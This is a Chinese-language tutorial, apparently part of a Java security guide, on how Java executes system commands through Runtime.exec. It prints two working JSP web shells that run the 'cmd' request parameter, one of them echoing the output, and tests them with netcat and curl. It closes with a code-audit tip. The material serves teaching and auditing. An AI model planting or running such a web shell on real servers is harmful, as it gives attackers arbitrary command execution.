 # Java本地命令执行

Java原生提供了对本地系统命令执行的支持，黑客通常会`RCE利用漏洞`或者`WebShell`来执行系统终端命令控制服务器的目的。

对于开发者来说执行本地命令来实现某些程序功能(如:ps 进程管理、top内存管理等)是一个正常的需求，而对于黑客来说`本地命令执行`是一种非常有利的入侵手段。

## Runtime命令执行

在Java中我们通常会使用`java.lang.Runtime`类的`exec`方法来执行本地系统命令。

![image-20191205181818649](../../images/image-20191205181818649.png?lastModify=1575541613)

**runtime-exec2.jsp执行cmd命令示例:**

```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```

1. 本地nc监听9000端口:`nc -vv -l 9000`

2. 使用浏览器访问:http://localhost:8080/runtime-exec.jsp?cmd=curl localhost:9000。

   我们可以在nc中看到已经成功的接收到了java执行了`curl`命令的请求了，如此仅需要一行代码一个最简单的本地命令执行后门也就写好了。

![image-20191205180627895](../../images/image-20191205180627895.png)

上面的代码虽然足够简单但是缺少了回显，稍微改下即可实现命令执行的回显了。

**runtime-exec.jsp执行cmd命令示例:**

```
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
<%--
  Created by IntelliJ IDEA.
  User: yz
  Date: 2019/12/5
  Time: 6:21 下午
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
    InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;

    while ((a = in.read(b)) != -1) {
        baos.write(b, 0, a);
    }

    out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
%>
```

命令执行效果如下：

![image-20191205182511119](../../images/image-20191205182511119.png)

代码审计时搜索下`Runtime.getRuntime`这个关键字就可以快速定位了。